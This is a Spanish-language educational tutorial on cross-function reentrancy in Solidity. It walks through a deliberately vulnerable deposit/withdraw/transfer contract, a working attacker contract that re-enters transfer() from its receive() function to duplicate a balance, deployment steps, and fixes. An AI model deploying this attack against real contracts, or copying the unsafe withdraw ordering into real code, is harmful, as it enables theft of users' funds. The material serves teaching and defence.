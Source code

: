 La vulnerabilidad de los contratos inteligentes conocida como **Reetrancy** no solo permite llamar a una misma función una y otra vez. Existe una variante similar, pero que **provoca el llamado a una segunda función**. Se lo conoce con el nombre de **Reetrancy Cruzado**.

## Reentrada cruzada de transacciones
Para que este tipo de vulnerabilidad se exponga, el contrato atacado tener una segunda función que permita manipular ETH de forma no contemplada por la regla de negocio principal del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado
Utilizaremos de ejemplo un contrato inteligente que permite depositar, retirar y transferir ETH a un tercero. Cada dirección solo puede retirar sus propios fondos o transferirlos a otra cuenta, pero **la vulnerabilidad permitirá que un atacante duplique sus fondos en otra cuenta** para que esta también pueda hacer retiros de ETH que no le corresponden.

### Contratos involucrados
Comencemos con el contrato principal que contiene la lógica de negocios para el depósito, retiro y transferencia de Ether.

```js
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract ReentrancyCross {
    mapping (address => uint) private balances;

    // Función para depositar ETH
    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    // Función para retirar todo el ETH de una cuenta
    function withdraw() public {
        uint amount = balances[msg.sender];
        (bool result, ) = msg.sender.call{value: amount}(""); 
        require(result);
        balances[msg.sender] = 0;
    }

    // Función para enviar ETH de una cuenta a otra, la vulnerabilidad la utiliza para duplicar balances
    function transfer(address to, uint amount) public {
        if (balances[msg.sender] >= amount) {
            balances[to] += amount;
            balances[msg.sender] -= amount;
        }
    }

    // Función para ver el balance de una cuenta
    function getBalance(address addr) public view returns (uint) {
        return balances[addr];
    }

    // Función para ver el balance total del contrato
    function getTotalBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

Por su parte, el contrato atacante:
```js
contract Ataque {
    // Dirección del owner de contrato donde se duplicará el balance
    address payable ownerAddr;

    ReentrancyCross public reentrancyCross;

    constructor(address _reentrancyCrossAddress) {
        // Instanciamos el contrato ReentrancyCross
        reentrancyCross = ReentrancyCross(_reentrancyCrossAddress);
        ownerAddr = payable(msg.sender);
    }

    // Función que recibe los ETH luego de un retiro
    receive() external payable {
        // Llamando a transfer(), duplicamos el balance en la cuenta del atacante
        reentrancyCross.transfer(ownerAddr, msg.value);
    }

    // Función que ocasiona el llamado a una segunda función luego del retiro
    function attack() external payable {
        require(msg.value >= 1 ether);
        reentrancyCross.deposit{value: 1 ether}();
        reentrancyCross.withdraw();
    }

    // Función para ver el balance total del contrato luego de explotar la vulnerabilidad
    function getTotalBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

### Procedimiento para vulnerar el contrato
* 1. Desplegar el contrato `ReentrancyCross`.
* 2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
* 3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `ReentrancyCross`.
* 4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recuperará inmediatamente ese ETH mientras que también provocará que el balance se duplique en otra dirección para que esta pueda retirar un ETH que no le pertenece.

> **CONSEJO:** Te animo a que tu mismo despliegues los contratos en entornos como [Remix](https://remix.ethereum.org/) para que explores la vulnerabilidad y veas que, efectivamente, el contrato atacante duplica el balance en otra cuenta.

### ¿Qué sucedió aquí?
`Attack` depositó un ETH e inmediatamente lo retiró con `ReentrancyCross.withdraw` que realiza una `call()` al propio contrato atacante. El contrato atacante recibe ese llamado en `receive()`, guarda el ETH, y ejecuta la función `transfer()` del contrato vulnerado. Dicha función, provoca que el balance del contrato atacante sea transferido a otra dirección. En este ejemplo, se utiliza la dirección que desplegó el contrato `Attack`.

De esta manera, el owner que desplegó el contrato `Attack`, tendrá en su balance personal de `ReentrancyCross` 1 ETH que no le pertenece y que puede retirar sin problemas.

Habiéndose duplicado el balance, el owner de `Attack` se queda con 1 ETH mientras que el propio contrato `Attack` posee el otro ETH fácilmente retirable por parte del owner.

La vulnerabilidad del tipo **Reetrancy Cruzado** es más discreta, ya que esta no vacia por completo los fondos de una contrato como **Reetrancy**, permite realizar pequeños retiros tal vez insospechados si el contrato tiene miles de ETH.

### ¿Por qué sucedió?
Al realizarse la transferencia antes de que el balance del contrato atacante se ponga en 0, permite hacer una transferencia de este balance a otra cuenta. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
    uint amount = balances[msg.sender];
    (bool result, ) = msg.sender.call{value: amount}(""); 
    require(result);
    balances[msg.sender] = 0;
}
```
Exactamente, el mismo problema de **Reetrancy**, al no setear el balance a 0 en el momento correcto, permite realizar una transferencia del balance a otra cuenta.

### ¿Cómo se puede evitar?
Veremos dos medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.
```js
function withdraw() public {
    uint amount = balances[msg.sender];
    balances[msg.sender] = 0;
    (bool result, ) = msg.sender.call{value: amount}(""); 
    require(result);
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.
```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

## Conclusiones
Hemos visto hasta aquí que el depósito, retiro o transferencia de valor entre cuentas o contratos **es un tema que no debe tomarse a la ligera**. Muchas variables que pueden escaparse y provocar desastres económicos, como muchos que ya han sucedido en la industria. Como desarrolladores Web3, **tenemos la responsabilidad de cuidar el ecosistema y que sea un lugar confiable para depositar nuestro dinero**.

---
**Contribución creada por:** *Kevin Fiorentino* **en colaboración con** *Platzi*.
